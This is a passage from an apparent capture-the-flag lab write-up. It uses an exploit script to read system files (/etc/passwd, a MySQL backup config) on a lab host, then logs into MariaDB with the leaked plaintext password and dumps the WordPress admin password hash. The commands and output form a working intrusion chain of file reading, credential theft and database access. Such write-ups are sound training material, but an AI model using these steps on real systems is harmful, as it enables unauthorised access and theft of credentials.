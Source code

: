 ```
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ftp:x:106:113:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
mysql:x:107:114:MySQL Server,,,:/nonexistent:/bin/false
Debian-exim:x:108:115::/var/spool/exim4:/usr/sbin/nologin
joseph:x:1000:1000::/home/joseph:/bin/sh
```

From this, we can read the `automysqlbackup` file. It turns out to be a very long `bash` script with a lot of irrelevant stuff. We can read the `/etc/default/automysqlbackup` file to find some credentials:

```
$ python3 50420.py http://192.168.243.167 /etc/default/automysqlbackup
# Username to access the MySQL server e.g. dbuser
USERNAME=backup

# Username to access the MySQL server e.g. password
PASSWORD=EverydayAndEverynight420

# Host name (or IP address) of MySQL server e.g localhost
DBHOST=localhost
```

With this, we can login to the MySQL instance.

### MySQL Enum -> WP Plugins -> Reset Mail

```
$ mysql -h 192.168.243.167 -u backup -pEverydayAndEverynight420
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 131
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+
2 rows in set (0.180 sec)
```

Let's enumerate `wordpress` and get the administrator hash:

```
MariaDB [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+-----------------+--------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email      | user_url           | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+-----------------+--------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$BQRpFYXVT4fNnin4CFuOiqUHRWchS40 | admin         | joseph@maria.pg | http://example.com | 2021-05-19 15:14:10 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+-----------------+--------------------+---------------------+---------------------+-------------+--------------+
```
